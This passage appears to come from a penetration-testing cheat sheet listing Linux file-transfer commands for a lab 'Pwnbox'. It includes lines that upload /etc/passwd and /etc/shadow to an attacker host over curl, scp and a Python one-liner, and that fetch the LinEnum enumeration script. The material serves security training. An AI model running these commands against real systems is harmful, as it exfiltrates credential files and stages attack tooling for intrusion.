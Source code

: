 | `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`                                                                | HTTP GET Request                                          |
| `cat <&3`                                                                                                  | Print the Response                                        |
|                                                                                                            |                                                           |
| **SSH Download / Upload**                                                                                  |                                                           |
| `scp plaintext@192.168.49.128:/root/myroot.txt .`                                                          | Linux - Downloading Files Using SCP                       |
| `scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/`                                                | File Upload using SCP                                     |
|                                                                                                            |                                                           |
| **Web Upload**                                                                                             |                                                           |
| `python3 -m pip install --user uploadserver`                                                               | Pwnbox - Start Web Server                                 |
| `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`  | Pwnbox - Create a Self-Signed Certificate                 |
| `mkdir https && cd https`                                                                                  | Pwnbox - Start Web Server                                 |
| `python3 -m uploadserver 443 --server-certificate /root/server.pem`                                        | Pwnbox - Start Web Server                                 |
| `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`    | Linux - Upload Multiple Files                             |
|                                                                                                            |                                                           |
| **Alternative Web File Transfer Method**                                                                   |                                                           |
| `python3 -m http.server`                                                                                   | Linux - Creating a Web Server with Python3                |
| `python2.7 -m SimpleHTTPServer`                                                                            | Linux - Creating a Web Server with Python2.7              |
| `php -S 0.0.0.0:8000`                                                                                      | Linux - Creating a Web Server with PHP                    |
| `ruby -run -ehttpd . -p8000`                                                                               | Linux - Creating a Web Server with Ruby                   |
| `wget 192.168.49.128:8000/filetotransfer.txt`                                                              | Download the File from the Target Machine onto the Pwnbox |

### Transfering Files with Code

| **Command**                                                                                                                                                                                                                                                                       | **Description**                                       |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------- |
| **Python**                                                                                                                                                                                                                                                                        |                                                       |
| `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`                                                                                                                                        | Python 2 - Download                                   |
| `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`                                                                                                                           | Python 3 - Download                                   |
| `python3 -m uploadserver`                                                                                                                                                                                                                                                         | Starting the Python uploadserver Module               |
| `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`                                                                                                                                                        | Uploading a File Using a Python One-liner             |